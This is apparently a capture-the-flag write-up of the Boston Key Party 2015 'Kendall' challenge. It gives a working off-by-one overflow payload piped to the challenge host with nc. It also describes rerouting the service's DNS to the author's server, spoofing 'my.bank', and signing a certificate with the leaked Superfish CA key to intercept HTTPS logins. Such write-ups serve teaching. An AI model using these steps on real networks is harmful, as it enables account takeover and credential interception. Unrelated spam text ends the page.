









Description of task is pretty small:
52.0.164.37:8888
And link to file (ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, stripped).
Solution
After connecting to the server we receive the following menu:
##################################################### # DHCP Management Console # # Auditing Interface # ##################################################### h show this help a authenticate c config menu d dhcp lease menu e exit [m]#
authenticate - stage for inputting administrator's password
config menu:
[c]# h h show this help l list keys/values s change start ip e change end ip k change netmask ip n change nameserver ip m return to main menu [c]# l DHCP Configuration: Start IP: 192.168.000.100 End IP: 192.168.000.200 Netmask: 255.255.255.000 Nameserver: 8.8.8.8
dhcp lease menu:
[d]# h h show this help r renew leases l list leases f filter leases m return to main menu
Ok, we've got some sort of router's management console. But anyway the task's type is pwn and we've got the binary, so...
Surely we should reverse the binary and find some vulnerable stuff there!
After investigation of the binary we notice that all input reading is done into global buffer s2 which size is exatcly 128 bytes:

Hope you've already noted that the buffer followed by global variable containing current user status - administrator or not. I called it adminFlag. The only legal way to change that flag is through authenticate menu. Authentication served by the following function:

And it looks pertty safe. But if we try to understand how reading input function works:

We see that there is a off by one error. Fortunately it is byte of adminFlag which should be zero'ed to escalate our access rights. So for escalation to administrator we need:
- find call to sub_400EA6() with argument length >= 128
- write 128 bytes followed '\n' to make 129th byte to be zero
Jumping to xrefs of sub_400EA6()function we find one place where it is called with argument's value of 128:

Nice! It is filter leases stage of dhcp lease menu we saw above. Well, exploit for rights escalation is easy and small:
doris$ python -c "open('pl', 'wb').write('d\n' + 'f\n' + 'A' * 128 + '\n')"
doris$ cat pl - | nc 52.0.164.37 8888
#####################################################
# DHCP Management Console #
# Auditing Interface #
#####################################################
h show this help
a authenticate
c config menu
d dhcp lease menu
e exit
[m]# [d]# Enter filter condition: [d]$BOOM! We became the administrator. Sadly, it does not give us any flag. Task worths 300 points, by the way, so it should not be so easy. As administrator now we have another possibilities in context of service. Now we are able to:
not only list but also change DHCP configuration:
[c]$ l DHCP Configuration: Start IP: 192.168.000.100 End IP: 192.168.000.200 Netmask: 255.255.255.000 Nameserver: 8.8.8.8 [c]$ s Current Value: 192.168.000.100 New Value: asd Your input asd cointains invalid characters. Only digits and dots allowed!
and now we can execute renew leases action:

OMG! It is pure system() call with string which is coltrolled by us (arguments for sprintf are IP addresses of DHCP config).
Sadly again, but it is not so easy. It is BKP CTF's task for 300 points, remember?
Function for processing DHCP settings update called for each IP address we input:

it has some small bugs, but anyway we can not provide any useful payload for system() call - only digits and dots are really allowed.
Further investigation of the binary did not give any other exploitable vulnerabilities. We were really stucked, because it is pwn task and usually we expect some serious binary exploitation, even hardcore exploitation because of 300 points.
Later, when we finally understand that there is nothing to do with the binary we return back to:

Fuzzing DHCP settings we try to set up DNS IP for our own server's address. Then listen for anything incoming traffic there:
root@evildns:/tmp# tcpdump -n dst port 53 tcpdump: verbose output suppressed, use -v or -vv for full protocol decode listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes 12:27:44.272585 IP 52.0.164.37.52440 > 188.166.48.175.53: 26405+ A? yandex.ru. (27)
Stop please...
We received DNS query for russian leading search engine hostname?
That is really suprisingly and a little bit unbeliviable, because CTF is hosted by BostonKeyParty team from USA, but that is true. Looks like time for some DNS Spoofing have come:
Honestly, yandex.ru is not the only hostname queried from task's service (52.0.164.37). Then it queries for my.bank domain.
After spoofing yandex.ru address we tried to listen 80 port on our server but did not receive any traffic. After solving the challenge we have known from task author that we should receive HTTP-request at 80 port, but honestly we did not receive this.
One of the ways to go further is to setup dnsmasq service:
root@evildns:/tmp# dnsmasq --no-daemon --log-queries dnsmasq: started, version 2.62 cachesize 150 dnsmasq: compile time options: IPv6 GNU-getopt DBus i18n IDN DHCP DHCPv6 no-Lua TFTP conntrack dnsmasq: reading /etc/resolv.conf dnsmasq: using nameserver 209.244.0.3#53 dnsmasq: using nameserver 8.8.8.8#53 dnsmasq: using nameserver 8.8.4.4#53 dnsmasq: read /etc/hosts - 8 addresses dnsmasq: query[A] yandex.ru from 52.0.164.37 dnsmasq: forwarded yandex.ru to 8.8.4.4 dnsmasq: forwarded yandex.ru to 8.8.8.8 dnsmasq: forwarded yandex.ru to 209.244.0.3 dnsmasq: reply yandex.ru is 213.180.204.11 dnsmasq: reply yandex.ru is 93.158.134.11 dnsmasq: reply yandex.ru is 213.180.193.11 dnsmasq: query[A] yandex.ru from 52.0.164.37 dnsmasq: cached yandex.ru is 213.180.193.11 dnsmasq: cached yandex.ru is 93.158.134.11 dnsmasq: cached yandex.ru is 213.180.204.11 dnsmasq: query[A] my.bank from 52.0.164.37 dnsmasq: /etc/hosts my.bank is 188.166.48.175
Dump all traffic after set up of dnsmasq and then try to find incoming connection:

It is coming to port 443... Okay. Let's process it, hope the final is close!
root@evildns:/tmp# nc -lvvv -p 443
listening on [any] 443 ...
connect to [188.166.48.175] from ec2-52-0-164-37.compute-1.amazonaws.com [52.0.164.37] 50092
?<ؠ<??5?_? ?,?E?y?]?^`g'i\??0?,?(?$??
??kj98???2?.?*?&???=5???
?/?+?'?#?? ??g@32??ED?1?-?)?%???</?A???
??m
42
^C sent 0, rcvd 289Looks like SSL Client Hello packet. Come on! This task costs just a 300 points!
Looks like we have to set up HTTPS server, let's do this. I'm sure there are many scripts and light-weight servers for such task, but I had nginx installed and decided to process HTTPS with it.
Create self-signed certificate:
root@evildns:/etc/nginx# openssl genrsa -out my.bank.key 2048 Generating RSA private key, 2048 bit long modulus ............................................................................+++ ............+++ e is 65537 (0x10001) root@evildns:/etc/nginx# openssl req -new -sha1 -key my.bank.key -out my.bank.csr You are about to be asked to enter information that will be incorporated into your certificate request. What you are about to enter is what is called a Distinguished Name or a DN. There are quite a few fields but you can leave some blank For some fields there will be a default value, If you enter '.', the field will be left blank. ----- Country Name (2 letter code) [AU]: State or Province Name (full name) [Some-State]: Locality Name (eg, city) []: Organization Name (eg, company) [Internet Widgits Pty Ltd]: Organizational Unit Name (eg, section) []: Common Name (e.g. server FQDN or YOUR name) []:my.bank Email Address []: Please enter the following 'extra' attributes to be sent with your certificate request A challenge password []: An optional company name []: root@evildns:/etc/nginx# openssl x509 -req -days 365 -in my.bank.csr -signkey my.bank.key -out my.bank.crt Signature ok subject=/C=AU/ST=Some-State/O=Internet Widgits Pty Ltd/CN=my.bank Getting Private key
and set up nginx for HTTPS with that cert:
server {
listen 443 ssl;
ssl_certificate my.bank.crt;
ssl_certificate_key my.bank.key;
ssl_protocols TLSv1 TLSv1.1 TLSv1.2;
ssl on;
ssl_session_timeout 5m;
ssl_ciphers ALL:!ADH:!EXPORT56:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv3:+EXP;
ssl_prefer_server_ciphers on;
root /data/www;
location = / {
index index.html;
}
location / {
default_type "text/html";
try_files $uri $uri.html;
}
}Let's look into traffic again. Hope there should be the flag now!
root@evildns:/etc/nginx# tail -f /var/log/nginx/access.log <...> 52.0.164.37 - - [28/Feb/2015:16:43:02 +0400] "-" 400 0 "-" "-"
Come on! Where is the flag? We have already even set up HTTPS, WTF?

Unknown CA? Of course it is unknown! Where should we get trusted CA who would sign certificate for my.bank domain?
Our my.bank certificate is self-signed without any CA. Later we tried to create root CA self-signed certificate and sign my.bank cert with root CA's one. It did not help.
As we have known from task's author after solving the task, HTTP request to yandex.ru contained hint about this stage. But as I wrote above about yandex.ru we did not receive any incoimng connection at 80 port when spoofed yandex.ru domain.
However if you follow the news about Information Security you should hear about leaked Superfish Inc. certificate (and corresponding pre-installed backdoors in lenovo laptops). More info from Errata Security blog, for example.
Let's try to sign our my.bank certificate by Superfich Inc:
root@evildns:/etc/nginx# openssl x509 -req -days 365 -in my.bank.csr -CAkey super.pem -CA super.crt -out supermy.bank.crt Signature ok subject=/C=AU/ST=Some-State/O=Internet Widgits Pty Ltd/CN=my.bank Getting CA Private Key Enter pass phrase for super.pem:
dnd listen for incoming requests again:
root@evildns:/etc/nginx# tail -f /var/log/nginx/access.log <...> 52.0.164.37 - - [28/Feb/2015:13:44:53 +0000] "GET /login/username=FLG-SIK9KSRBHIYUKNGEBXlKW3B7HS2I HTTP/1.1" 404 168 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:29.0) Gecko/20120101 Firefox/29.0"
I'm happy to say that username from request is the flag!
Flag: FLG-SIK9KSRBHIYUKNGEBXlKW3B7HS2I
Afterwords
This task is awesome. My teammates and I enjoyed it too much when fully understood how to solve it.
Task and its author are praiseworthy for all these interesting hacking steps which must be done to solve tasks. But not only for that. This is amazing example of how dangerous information technologies are nowadays for general users. Even for all users, I think.
Thank you BostonKeyParty and respect for such challenge!
Overview of task from its author: http://mweissbacher.com/blog/2015/03/01/boston-key-party-2015-kendall-challenge-superfish/
Flag: FLG-SIK9KSRBHIYUKNGEBXlKW3B7HS2I
Asics shoes | Women's Nike nike roshe heart and sole shoes for women Shadow trainers - Latest Releases , Ietp